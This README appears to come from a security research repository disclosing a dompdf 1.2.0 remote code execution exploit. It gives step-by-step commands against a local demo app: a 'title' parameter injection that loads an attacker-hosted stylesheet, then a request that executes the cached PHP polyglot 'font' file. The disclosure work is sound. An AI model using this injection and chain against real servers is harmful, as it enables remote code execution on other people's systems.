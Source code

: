 # RCE exploit for dompdf

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

![Exploit Overview](exploit/overview.png)

For more details, please visit https://positive.security/blog/dompdf-rce

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
